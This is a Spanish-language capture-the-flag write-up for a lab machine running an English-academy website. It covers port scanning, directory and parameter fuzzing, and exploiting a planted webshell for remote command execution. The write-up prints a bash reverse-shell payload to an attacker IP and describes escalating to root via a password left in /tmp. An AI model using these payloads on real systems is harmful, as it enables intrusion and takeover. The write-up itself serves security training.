

<p align="center">
    
</p>


Compruebo si está activa
```
ping -c 1 172.17.0.2
```

<p align="center">
    
</p>


---


## Enumeración
### Escaneo de puertos
- Primero hago un reconocimiento de puertos silencioso de los puertos abiertos
```
nmap -p- --open -sS --min-rate 5000 -n -Pn 172.17.0.2
```

<p align="center">
    
</p>


**Resultados del escaneo:**

| Puerto | Estado | Servicio |
| ------ | ------ | -------- |
| 80/tcp | open   | http     |


Realizamos un segundo escaneo al puerto abierto, lanzando una serie de script por defecto de `nmap` y reconocimiento de servicios.
```
nmap -p80 -sVC --min-rate 5000 -n -Pn 172.17.0.2
```

<p align="center">
    
</p>


| Puerto | Estado | Servicio | Versión                        |
| ------ | ------ | -------- | ------------------------------ |
| 80/tcp | open   | http     | Apache httpd 2.4.57 ((Debian)) |

---


<h3><center> Análisis del servidor web HTTP (puerto 80)</center></h3>

Al introducir la IP como la dirección URL, la web nos muestra lo siguiente:
<p align="center">
    
</p>


Es aplicación web de una academia de Ingles, si observamos mas atentamente la web, en la parte inferior podemos ver una pista de que hay información en un directorio `/tmp`.
<p align="center">
    
</p>


Hago un reconocimiento de las tecnologías con las que está hecha la aplicación web.
```
whatweb http://172.17.0.2
```

<p align="center">
    
</p>

No se descubre nada nuevo.

### Fuzzing Web

**dirb**
```
dirb http://172.17.0.2
```

<p align="center">
    
</p>

No descubrimos mucho, así que realizamos `fuzzing web`, mas exhaustivo para ver si encontramos algún fichero a parte de directorios.

**gobuster**
```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php,txt,html
```

<p align="center">
    
</p>

Nos enumera un fichero `secret.php`, pero con un código de error `500`. Este código de error nos indica que se ha encontrado una condición inesperada que le impidió cumplir con la solicitud. Y también encontramos otro fichero interesante `warning.html`.

<p align="center">
    
</p>

Si vamos a la URl del fichero `warning.html` podemos ver
<p align="center">
    
</p>

Nos indica que ha sido pirateada y que tenemos algún parámetro en la `webshell`, que tiene que estar relacionado con el fichero `shell.php`. Por lo que vamos a `fuzzear` para descubrir cuál es ese parámetro que nos puede dar una respuesta. En este caso uso `wfuzz`.

**wfuzz**
```
wfuzz --hc=500 -c -t 200 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/shell.php?FUZZ=id"
```

<p align="center">
    
</p>

Encontró  el parámetro que es `parameter`. Nos dirigimos  a la web a comprobar que funciona.
<p align="center">
    
</p>

Y vemos que funciona por lo que tenemos un **RCE**, ejecución remota de comandos.

---

## Explotación

Teniendo una **RCE** nos enviaremos una `reverse shell` para ganar acceso a la máquina.

Nos ponemos en escucha por el puerto 1234
```
nc -nlvp 1234
```

<p align="center">
    
</p>


Y en la URL vulnerable:
```
http://172.17.0.2/shell.php?parameter=bash -c "bash -i >%26 /dev/tcp/192.168.1.28/1234 0>%261"
```

Los **"%26"** corresponden al símbolo **"&"** de forma URL-encodeada para que no den conflicto. Y siendo la **192.168.1.28** la **IP** de mi máquina atacante.
<p align="center">
    
</p>

Si vamos a donde estábamos a la escucha con `netcat`, vemos que obtuvimos acceso a la máquina.

<p align="center">
    
</p>

---

## Post-Explotación

### Tratamiento de la tty

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```

(hacemos **ctrl + Z**)

```shell
stty raw -echo; fg
reset xterm
```

<p align="center">
    
</p>

```
stty rows 41 columns 189
export TERM=xterm
export SHELL=bash
```

<p align="center">
    
</p>
Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina. Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.


### Escalada de Privilegios

Según la pista que nos dieron al principio de este reto, acerca del directorio **/tmp**. Comprobamos su contenido. Usamos "**ls -la**" para listar posibles ficheros o directorios ocultos.
```
ls -la /tmp
```

<p align="center">
    
</p>

Vemos que encontramos un fichero en la carpeta `/tmp`  llamado **.secret.txt**. Si vemos el contenido del mismo.
```
cat /tmp/.secret.txt
```

<p align="center">
    
</p>

Nos otorga una contraseña para el usuario **root** directamente.

```
su root
```

Introducimos la contraseña -> **contraseñaderoot123**
<p align="center">
    
</p>

Somos el usuario `root`.


